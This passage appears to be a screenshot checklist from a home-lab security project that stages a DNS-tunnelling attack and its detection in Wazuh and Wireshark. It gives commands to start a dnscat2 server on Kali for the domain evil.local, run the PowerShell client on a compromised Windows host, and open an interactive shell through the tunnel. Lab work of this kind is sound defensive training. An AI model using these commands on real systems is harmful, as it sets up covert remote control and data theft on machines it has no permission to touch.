 **How to capture:**
```bash
# On Kali
cd /opt/dnscat2/server
ruby dnscat2.rb --dns "domain=evil.local,host=10.10.10.100"
# Screenshot showing server started
```

#### 14. `14_dnscat2_client_connection.png`
**What to capture:**
- Windows PowerShell showing dnscat2 client execution
- Connection established to C2 server

**How to capture:**
```powershell
# On compromised Windows WS01
.\dnscat2.ps1 -Domain evil.local -DNSServer 10.10.10.100
# Screenshot PowerShell window
```

#### 15. `15_dns_c2_session_active.png`
**What to capture:**
- Kali server showing established session
- Commands being executed through tunnel
- Data transfer statistics

**How to capture:**
```bash
# In dnscat2 server terminal after client connects
dnscat2> session -i 1
command (client) 1> shell
# Screenshot showing interactive shell through DNS tunnel
```

#### 16. `16_wireshark_dns_traffic.png`
**What to capture:**
- Wireshark capture on Kali showing DNS queries
- Filter: `dns` or `udp.port == 53`
- Long TXT record queries visible
- Unusual subdomain patterns

**How to capture:**
- Start Wireshark on Kali before launching attack
- Capture on interface connected to 10.10.10.0/24
- Apply DNS filter
- Screenshot showing anomalous DNS traffic

---

## Detection Screenshots (save to: screenshots/detection/)

### DETECTION 1: Brute Force

#### 17. `17_brute_force_alert_triggered.png`
**What to capture:**
- Wazuh alert showing Rule ID 100010 triggered
- Alert description: "Possible RDP brute force attack"
- Source IP: 10.10.10.100, Destination: 10.10.10.20
- Alert level: 10 (High)
